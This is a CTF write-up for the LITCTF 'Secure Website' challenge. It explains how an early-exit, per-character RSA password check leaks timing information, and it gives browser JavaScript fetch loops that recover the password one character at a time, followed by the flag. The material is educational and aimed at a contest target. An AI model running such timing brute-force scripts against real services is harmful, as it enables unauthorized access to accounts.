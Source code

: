 # web/Secure Website

## Challenge

I have like so many things that I want to do, but I am not sure if I want others to see them yet D: I guess I will just hide all the super important stuff behind my super super fortified and secure [Password Checker](http://litctf.live:31776/)!

[`SecureWebsite.zip`](https://drive.google.com/file/d/1ixlV54JoFOGziLzlOewPBijbtePZo8SI/view)

## Solution

### Analysis

This is an interesting one! Looking in `main.js`, we see our main and only target:
```js
var flag = (process.env.FLAG ?? "ctf{flag}");
// I like alphanumeric passwords
var password = (process.env.password ?? "password");

/* ... standard Express.js stuff */

app.get('/verify', (req, res) => {
	var pass = req.query.password;
	if(pass == undefined || typeof(pass) !== 'string' || !checkPassword(password,pass)) {
		res.writeHead(302, {'Location': 'https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley'});
		res.end();
		return;
	}
	res.render("secret",{flag: flag});
});
```

Hm... to simple and standard to exploit here. We'll look at `checkPassword()` in `passwordChecker.js`:
```js
// I think this is how you're supposed to implement RSA?
// IDK this is a web challenge not a crypto challenge :clown:
// I just picked 2 random prime numbers as the tutorial said
// (Or is it 0_0)

/* ... blah blah some standard RSA code */

function checkPassword(password,pass) {
	var arr = pass.split(",");
	for(var i = 0;i < arr.length;++i) {
		arr[i] = parseInt(arr[i]);
	}

	if(arr.length != password.length) return false;
	for(var i = 0;i < arr.length;++i) {
		var currentChar = password.charCodeAt(i);
		var currentInput = decryptRSA(arr[i]);
		if(currentChar != currentInput) return false;
	}
	return true;
}
```
...well, that's interesting. As the top of the file hints, the RSA decryption is basic and standard, and we're given all public and private values so it's basically pointless.

But it's used weirdly... each _individual_ character is decrypted, one at a time, and the moment there's a mismatch, the function returns `false`. So it's seemingly even more pointless...

Except it seems there's really nowhere to exploit. `pass` must be a string, so we can't inject anything into this function. `NaN` won't break anything either.

But comparing strings character-by-character with an inefficient process that returns as soon as a mismatch is found? This sounds like a <u>timing attack</u>!

### Attack

For reference, how the password is encoded for transmission (`views/index.ejs`):
```js
function submitForm() {
    var pwd = $("#password").val();
    var arr = [];
    for(var i = 0;i < pwd.length;++i) {
        arr.push(encryptRSA(pwd.charCodeAt(i)));
    }
    window.location.href = "/verify?password=" + arr.join();
    return;
}
```
Since `checkPassword()` first checks lengths, we need to find the password length first before guessing characters:
```js
(async () => { // IIFE (to use await) not necessary on Chrome
    for (let i = 1; i <= 10; ++i) {
        const pwd = "a".repeat(i);
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join(); // arr.join()
        const t = performance.now(); // timing start
        await fetch(`http://litctf.live:31776/verify?password=${q}`, {
            "redirect": "manual", // to ignore the redirect
        });
        console.log(pwd, performance.now()-t); // timing end
        await new Promise(resolve => setTimeout(resolve, 2000)); // timeout to avoid rate limits
    }
})()
```
Rate limits were a bit annoying - they can show up as `429 Too Many Requests`, but they also randomly increase timings with no errors. However, looking at results, it's obvious whether rate limits affected it.

![](./Secure%20Website/timing.png)
Oh, yeah. The first request is always much slower for some reason, but the password isn't gonna be one character, right???

But anyway, hooray! `aaaaaa` has a clear difference! And the rest are almost constant, no need to average trials. We move on:
```js
(async () => {
    for (let c of "AABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `${c}aaaaa`;
/* the same thing */
```
(The first letter is to avoid the slow first request.)

But yay! `Caaaaa` has a significant difference (~1024 vs ~200), and we move on, testing `C${c}aaaa` and so on. (It's only 6 characters total, so it's not worthy to automate, especially since random outliers rarely appear.)

4 more rounds later (with requests taking longer and longer), we get `CxIj6_`. The last character is tricky, because a success won't mean another character check; instead, we will get sent to the flag!
```js
await (async () => {
    for (let c of "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `CxIj6${c}`;
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join();
        try {
            const res = await fetch(`http://litctf.live:31776/verify?password=${q}`, {
                "redirect": "error", // so only the correct one doesn't error
            });
            return await res.text();
        } catch {}
        console.log(pwd, "failed");
        await new Promise(resolve => setTimeout(resolve, 2000));
    }
})()
```
And for `CxIj6p`...
![](./Secure%20Website/secret.png)
Yay!

## Flag

`LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}`

## Notes

At first I averaged trials, but then it got painfully slow so I tried just one each and it worked. Also, for the last character, I originally just manually guessed until I got it right! (Lots of rickrolling there...)
